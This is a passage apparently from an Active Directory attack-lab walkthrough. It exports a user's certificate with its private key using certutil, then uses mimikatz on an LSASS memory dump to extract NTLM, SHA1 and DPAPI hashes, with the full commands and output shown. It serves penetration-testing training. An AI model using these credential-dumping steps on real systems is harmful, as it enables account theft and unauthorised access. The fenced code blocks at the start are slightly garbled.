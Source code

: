 ```powershell
```
- We have discovered a certificate for `us\pawadmin`. Let's export it.
```powershell
```powershell
PS C:\Windows\Tasks> certutil -p "certpass" -exportpfx 725a67544603edee1d700acdce04c7b32b447be6 C:\Windows\Tasks\pawadmin.pfx
certutil -p "certpass" -exportpfx 725a67544603edee1d700acdce04c7b32b447be6 C:\Windows\Tasks\pawadmin.pfx
MY "Personal"
================ Certificate 0 ================
Serial Number: 770000002277618a0e7a1bce4f000000000022
Issuer: CN=TECHCORP-DC-CA, DC=techcorp, DC=local
 NotBefore: 6/1/2023 1:34 AM
 NotAfter: 5/31/2024 1:34 AM
Subject: E=pawadmin@techcorp.local, CN=pawadmin, CN=Users, DC=us, DC=techcorp, DC=local
Non-root Certificate
Template: 1.3.6.1.4.1.311.21.8.11428283.12600195.6637456.4695971.7627035.128.16055752.16575009, Users
Cert Hash(sha1): 725a67544603edee1d700acdce04c7b32b447be6
  Key Container = te-Users-58337848-55d1-4714-af0f-aa001efcbef8
  Unique container name: 97d732b54b2befc0dedb62890889e59f_47299789-e16f-492c-bb4d-2624d87a6ec3
  Provider = Microsoft Enhanced Cryptographic Provider v1.0
Encryption test passed
CertUtil: -exportPFX command completed successfully.
```
- We can now exit our remote session and copy those files to our machine.
- We will use the LSASS dump to extract credentials.
```powershell
PS C:\Auditor> .\mimikatz.exe

<snip>

mimikatz # sekurlsa::minidump us-jump_lsass.dmp
Switch to MINIDUMP : 'us-jump_lsass.dmp'

mimikatz # sekurlsa::logonpasswords
Opening : 'us-jump_lsass.dmp' file for minidump...

<snip>

Authentication Id : 0 ; 19976486 (00000000:0130d126)
Session           : RemoteInteractive from 2
User Name         : pawadmin
Domain            : US
Logon Server      : US-DC
Logon Time        : 12/27/2022 3:03:46 AM
SID               : S-1-5-21-210670787-2521448726-163245708-1138
        msv :
         [00000003] Primary
         * Username : pawadmin
         * Domain   : US
         * NTLM     : 36ea28bfa97a992b5e85bd22485e8d52
         * SHA1     : e143389dd70c1d719aa6b76518a00f3df98dbd0f
         * DPAPI    : 3b137c04aa513fdc4fd1fc50961ea71e
        tspkg :
        wdigest :
         * Username : pawadmin
         * Domain   : US
         * Password : (null)
        kerberos :
         * Username : pawadmin
         * Domain   : US.TECHCORP.LOCAL
         * Password : (null)
        ssp :
```